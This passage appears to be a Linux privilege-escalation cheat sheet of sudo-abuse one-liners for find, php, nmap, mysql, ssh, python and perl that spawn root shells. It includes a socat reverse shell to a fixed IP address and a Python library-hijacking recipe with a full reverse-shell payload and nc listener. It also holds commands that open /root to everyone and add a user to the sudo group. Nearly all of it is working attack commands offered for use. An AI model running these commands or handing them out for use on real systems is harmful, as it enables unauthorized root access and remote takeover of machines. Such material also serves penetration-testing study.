 ```
```
USE https://gtfobins.github.io/gtfobins/php/
```
### IF FIND (/usr/bin/find)
```
sudo find / etc/passwd -exec /bin/bash \;
find . -exec chmod -R 777 /root \;
find . -exec usermod -aG sudo user \;
sudo find /home -exec /bin/bash \;
```
### IF PHP (/usr/bin/php)
```
sudo -u user_name php -r "system('/bin/sh');"
```
### IF NMAP
```
echo "os.execute('/bin/bash/')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
sudo nmap --interactive > !sh
```
### IF SOCAT
```
Attacker = socat file:`tty`,raw,echo=0 tcp-listen:1234
Victim = sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234
```
### IF MYSQL
```
sudo mysql -e '\! /bin/sh'
```
### IF SSH
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
### IF /usr/bin/python
```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
sudo python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
### /usr/bin/python hijacking
```
(root) SETENV: NOPASSWD: /usr/bin/python3 /home/user/python_script.py
//There is some kinda python lib hijacking. In short, to hijack, follow the steps:
//get the location of python library (which is being used), in our case its /usr/lib/python3.8/
//copy the example.py file to /tmp
//cp /usr/lib/python3.8/example.py /tmp/example.py
//add the reverse shell in the example.py file (where ever you want)
//reverse shell used:
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
//Start the listener
nc -lnvp 1234
//to get the shell, run the command
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/user/python_script.py (which includes example.py library)
//The PYTHONPATH environment variable indicates a directory (or directories), where Python can search for modules to import.
```
### IF /usr/bin/Perl
```
sudo perl -e 'exec "/bin/bash";'
```
More at https://github.com/gurkylee/Linux-Privilege-Escalation-Basics#absuing-sudo-binaries-to-gain-root

### SSH user priv download
```
to download a file from kali IF you have SSH access to the machine